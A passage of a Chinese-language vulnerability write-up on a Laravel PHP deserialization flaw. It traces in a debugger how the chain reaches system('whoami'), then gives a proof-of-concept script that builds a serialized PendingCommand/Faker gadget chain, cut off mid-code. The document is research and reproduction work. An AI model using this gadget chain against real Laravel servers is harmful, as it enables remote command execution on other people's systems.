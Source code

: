 就是返回一个合并数组,因为`$dependencies`是空数组,`$parameters`是我们传进来的whoami

![image-20211125205420184](images/19.png)

所以返回值就是whoami

那`$default`的值就是`system("whoami")`了,单步跳过,会到了run方法发现命令执行成功

![image-20211125205543686](images/20.png)

# 漏洞复现

## POC1

```
<?php

namespace Illuminate\Foundation\Testing {

    use Faker\DefaultGenerator;
    use Illuminate\Foundation\Application;

    class PendingCommand
    {
        protected $command;
        protected $parameters;
        protected $app;
        public $test;

        public function __construct($command, $parameters, $class, $app)
        {
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test = $class;
            $this->app = $app;
        }
    }
    $a = array("DawnT0wn" => "1");
    $app = array("Illuminate\Contracts\Console\Kernel" => array("concrete" => "Illuminate\Foundation\Application"));
    echo urlencode(serialize(new PendingCommand("system", array("whoami"), new DefaultGenerator($a), new Application($app))));
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}


namespace Illuminate\Foundation {
    class Application
    {
        protected $hasBeenBootstrapped = false;
        protected $bindings;

```